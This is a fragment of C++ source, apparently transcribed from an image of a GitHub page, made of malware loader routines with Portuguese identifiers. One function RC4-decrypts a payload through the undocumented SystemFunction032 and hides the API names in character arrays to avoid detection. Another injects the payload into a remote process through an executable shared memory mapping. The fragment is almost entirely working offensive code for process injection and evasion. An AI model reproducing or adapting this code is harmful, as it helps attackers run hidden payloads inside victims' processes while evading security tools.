 ```cpp
	USTRING* Key
	);

BOOL RC4DEC(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
	NTSTATUS STATUS;
	USTRING Key = { dwRc4KeySize, dwRc4KeySize, reinterpret_cast<PWSTR>(pRc4Key) };
	USTRING Img = { sPayloadSize, sPayloadSize, reinterpret_cast<PWSTR>(pPayloadData) };
	char a_dll_name[] = { 'A','d','v','a','p','i','3','2',0 };
	char NotSysFunc32[] = { 'S','y','s','t','e','m','F','u','n','c','t','i','o','n','0','3','2',0 };
	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA(a_dll_name), NotSysFunc32);

	STATUS = SystemFunction032(&Img, &Key);
	if (STATUS != 0x0) {
		return FALSE;
	}
	return TRUE;
}

BOOL InjetarPayload(IN HANDLE handleProcesso, IN PBYTE payload, IN SIZE_T tamanhoPayload, OUT PVOID* enderecoRemoto) {
    BOOL estado = TRUE;
    HANDLE handleMapeamentoArquivo = NULL;
    PVOID enderecoLocal = NULL, enderecoMapeamentoRemoto = NULL;

    handleMapeamentoArquivo = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, (DWORD)tamanhoPayload, NULL);
    if (handleMapeamentoArquivo == NULL) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Erro ao criar o mapeamento de arquivo." << std::endl;
        estado = FALSE;
        goto FimDaFuncao;
    }

    enderecoLocal = MapViewOfFile(handleMapeamentoArquivo, FILE_MAP_WRITE, NULL, NULL, tamanhoPayload);
    if (enderecoLocal == NULL) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Erro ao mapear a visão do arquivo." << std::endl;
        estado = FALSE;
        goto FimDaFuncao;
    }

    memcpy(enderecoLocal, payload, tamanhoPayload);
    enderecoMapeamentoRemoto = MapViewOfFile2(handleMapeamentoArquivo, handleProcesso, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
    if (enderecoMapeamentoRemoto == NULL) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Erro ao mapear a visao do arquivo remoto." << std::endl;
        estado = FALSE;
        goto FimDaFuncao;
    }

FimDaFuncao:
    *enderecoRemoto = enderecoMapeamentoRemoto;
    if (handleMapeamentoArquivo)
        CloseHandle(handleMapeamentoArquivo);
    return estado;
}

```
